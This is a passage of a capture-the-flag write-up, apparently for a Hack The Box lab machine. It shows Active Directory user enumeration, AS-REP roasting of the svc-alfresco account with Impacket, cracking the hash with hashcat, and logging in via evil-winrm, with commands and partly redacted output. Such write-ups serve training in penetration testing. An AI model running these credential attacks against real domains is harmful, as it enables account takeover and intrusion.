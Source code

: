     user:[HealthMailbox968e74d] rid:[0x472]
    user:[HealthMailbox6ded678] rid:[0x473]
    user:[HealthMailbox83d6781] rid:[0x474]
    user:[HealthMailboxfd87238] rid:[0x475]
    user:[HealthMailboxb01ac64] rid:[0x476]
    user:[HealthMailbox7108a4e] rid:[0x477]
    user:[HealthMailbox0659cc1] rid:[0x478]
    user:[sebastien] rid:[0x479]
    user:[lucinda] rid:[0x47a]
    user:[svc-alfresco] rid:[0x47b]
    user:[andy] rid:[0x47e]
    user:[mark] rid:[0x47f]
    user:[santi] rid:[0x480]
    user:[john] rid:[0x2581]
    
     =================================( Share Enumeration on 10.10.10.161 )=================================
    
    do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)                                                                                                                                  
    <STEP>

Retrieved!!
We have just find an interesting user call `svc-alfresco`.

Now with impaket let's try to get TGT token of user.

    GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    Password:
    [*] Cannot authenticate svc-alfresco, getting its TGT
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:8f211<redacted>

Retrived too!!


<a id="org13212d9"></a>

# Abusing svc-alfresco

We have couch the TGT token of this user so let's try to crack it with us best frind hashcat.

    hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $krb5asrep$23$svc-alfresco@HTB:<redacted>:<redacted>
    ...[snip]...

Password taken!!

Now all we have to do is to enter.

    evil-winrm -i 10.10.10.161 -u svc-alfresco -p <redacted>

From here We can grab user.txt.

    *Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt


